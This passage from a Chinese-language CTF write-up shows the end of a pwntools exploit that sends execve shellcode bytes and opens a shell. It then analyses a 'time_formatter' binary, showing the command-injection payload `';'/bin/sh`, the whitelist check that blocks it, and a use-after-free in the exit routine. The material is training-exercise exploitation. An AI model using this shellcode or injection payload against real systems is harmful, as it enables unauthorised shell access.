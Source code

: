 ```python
add(1, '\x6a\x00\x5e\x90\x90\xe9\x16')
add(1, '\x48\x31\xc9\xb0\x3b\x0f\x05')
p.recvuntil("your choice>> ")
p.sendline("5")
p.recv()
p.interactive()
```

## time_formatter

保护很全

![t1.png](https://i.loli.net/2019/08/06/VDYUdSutQZaHhRj.png)

有system函数在，但是不大能通过ROP来跳转

![t2.png](https://i.loli.net/2019/08/06/l6KHfV1Yh2dMGPx.png)

这里的command其实是可以做文章的

![t3.png](https://i.loli.net/2019/08/06/zuEUZIYgHv3Gd7p.png)

这样就可以起shell，那么如何输入

```
';'/bin/sh
```

在 Set a time format. 函数中有一个check会屏蔽如上的payload


```c
_BOOL8 __fastcall sub_400CB5(char *s)
{
  char accept; // [rsp+5h] [rbp-43h]
  unsigned __int64 v3; // [rsp+38h] [rbp-10h]

  strcpy(&accept, "%aAbBcCdDeFgGhHIjklmNnNpPrRsStTuUVwWxXyYzZ:-_/0^# ");
  v3 = __readfsqword(0x28u);
  return strspn(s, &accept) == strlen(s);       // need true
} 
```
所以不能直接输入，但是在exit函数中，会把format的chunk给free掉，且可以继续运行不退出

```c 
signed __int64 exit()
{
  signed __int64 result; // rax
  char s; // [rsp+8h] [rbp-20h]
  unsigned __int64 v2; // [rsp+18h] [rbp-10h]

  v2 = __readfsqword(0x28u);
  delete(ptr);                                  // uaf
  delete(value);
  __printf_chk(1LL, "Are you sure you want to exit (y/N)? ");
  fflush(stdout);
  fgets(&s, 16, stdin);
  result = 0LL;
  if ( (s & 0xDF) == 'Y' )                      // N
  {
    puts("OK, exiting.");
    result = 1LL;
  }
  return result;
}
```
